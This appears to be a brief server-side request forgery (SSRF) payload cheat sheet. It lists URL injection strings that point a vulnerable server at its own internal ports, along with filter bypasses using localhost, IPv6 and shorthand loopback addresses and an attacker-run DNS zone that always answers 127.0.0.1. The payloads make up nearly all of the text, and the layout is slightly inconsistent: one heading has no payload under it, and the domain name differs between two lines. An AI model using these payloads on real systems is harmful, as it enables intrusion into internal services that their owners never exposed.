 # SSRF

## Server Side Request Forgery

### Basic injection

`http://vulnerable.site/?url=http://127.0.0.1:1234`

### 127.0.0.1 filtering

`http://vulnerable.site/?url=http://localhost:1234`

### 127.0.0.1 and localhost filtering

### ipv6

`http://[::1]:1234/`

`127.1:1234`

### Abusing DNS Zone

Need to set up a DNS zone which always returns 127.0.0.1 for any host in the domain.

* Add zone malicious.domain.name which returns 127.0.0.1 for any request

`http://vulnerable.site/?url=http://validurl.malicious.zone:1234/`

